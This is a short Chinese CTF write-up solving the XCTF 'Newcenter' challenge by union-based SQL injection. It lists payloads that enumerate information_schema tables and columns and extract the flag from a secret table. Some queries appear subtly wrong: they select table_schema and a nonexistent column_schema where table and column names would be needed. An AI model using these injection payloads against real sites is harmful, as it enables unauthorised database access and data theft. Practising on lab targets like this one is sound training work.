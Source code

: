 # T15 the last ONE

> 题目：攻防世界 Newcenter

__0x00 审题__

开篇search，检查是否有注入：'

很显然有注入，检查字段数

__0x01 解题__

1. 联合查询：1’ union select 1,2,3 #

> 发现有回显，直接查表，就不查数据库了

* 注：回显为2，3，很显然没有1，没事不重要，显示不出来之后记着合并就行了。（group_concat）

2. 1' union select 1,group_concat(table_schema),3 from information_schema.tables where table_schema=database() #

得到：news，secret_table

3. 查字段

```
1' union select 1,group_concat(column_schema),3 from information_schema.columns where column_schema='secret_table'and table_schema=database() #
```

得到：
id,fl4g

4. 1' union select 1,fl4g,3 from secret_table #

__0x02 总结__

这个题我竟然完全能做！！（果然还是简单了）
